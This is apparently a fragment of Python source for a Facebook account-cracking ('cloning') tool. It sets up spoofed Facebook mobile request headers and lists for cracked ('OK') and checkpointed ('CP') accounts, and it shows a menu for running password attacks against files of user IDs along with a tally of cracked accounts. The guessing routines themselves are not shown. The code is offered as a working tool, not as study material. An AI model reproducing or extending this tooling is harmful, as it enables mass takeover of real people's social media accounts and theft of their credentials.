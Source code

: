 warna = random.choice(my_color)
data,data2={},{}
aman,cp,salah=0,0,0
ubahP,fuck,pwBaru=[],[],[]
ok = []
cp = []
id = []
user = []
loop = 0
url_lookup = "https://lookup-id.com/"
url_mb = "https://m.facebook.com"
url_ip = "https://www.httpbin.org/ip"
header_grup = {"user-agent": "Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"}
bulan_ttl = {"01": "January", "02": "February", "03": "March", "04": "April", "05": "May", "06": "June", "07": "July", "08": "Augustus", "09": "September", "10": "October", "11": "November", "12": "December"}
done = False
###
birth = ['001', '02', '03', '04', '05', '06', '07', '08', '09', '10', '11', '12', '13', '14', '15', '16', '17', '18', '19', '20', '21']
bd = random.randint(2e7, 3e7)
sim = random.randint(2e4, 4e4)
header = {'x-fb-connection-bandwidth': repr(bd), 'x-fb-sim-hni': repr(sim), 'x-fb-net-hni': repr(sim),'x-fb-connection-quKingty': 'EXCELLENT', 'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.3','x-fb-connection-type': 'unknown','content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
 
def main():
	os.system('clear');print(banner)
	print('\033[1;32m        ┌─────────────────────────────────┐') 
	print("\033[1;92m\t│\033[1;92mWELLCOME TO King 2.8     \033[1;92m      │")
	print('\033[1;32m┌────────────────────────────────────────────┐') 
	print('\033[1;92m│\033[1;37m[01] \033[1;92mFILE CLONING   \033[1;37m[\033[1;32mCP/OK MIX IDS\033[1;37m] \033[1;31m(\033[1;32mFAST\033[1;31m) \033[1;32m │ ')
	print('\033[1;92m│\033[1;37m[02] \033[1;92mFILE CLONING   \033[1;37m[\033[1;33mONLY OK IDS  \033[1;37m] \033[1;31m(\033[1;32mSLOW\033[1;31m) \033[1;32m │')
	print('\033[1;92m│\033[1;37m[03] \033[1;92mCONTACT WITH OWNER \033[1;32m                    │')
	print('\033[1;92m│\033[1;37m[00] \033[1;91mEXIT\033[1;32m                                   │ ')
	print('\033[1;32m└────────────────────────────────────────────┘')
	print('')
	Adi = input('\033[1;37m[+] \033[1;32mCHOOSE OPTION : ')
	if Adi in ('1', '01'):
		__crack__().plerr()
	if Adi in ('2', '02'):
		__filecrack3__().plerr()
	if Adi in ('3', '03'):
		os.system("xdg-open https://youtube.com/@abirtips1200")
	if Adi in ('0', '00'):
		exit('THANKS FOR USING MARK TOOL')  
	else:
		print ('      InvKingd Select')
		main()
def banner():
	print(banner)
def hasil(ok,cp):
	if len(ok) != 0 or len(cp) != 0:
		print('\033[1;96m The Prosess Done Is Completed')
		print('\n\033[1;92mTotal OK : %s \n \033[1;91m Total CP : %s'%(str(len(ok)),str(len(cp))));input(' Press Enter To Go Back ');main()
	else:
		print('\n\033[0mYour Ip Is Blocked Or Blacklist Restart Your Mobile ')
		exit()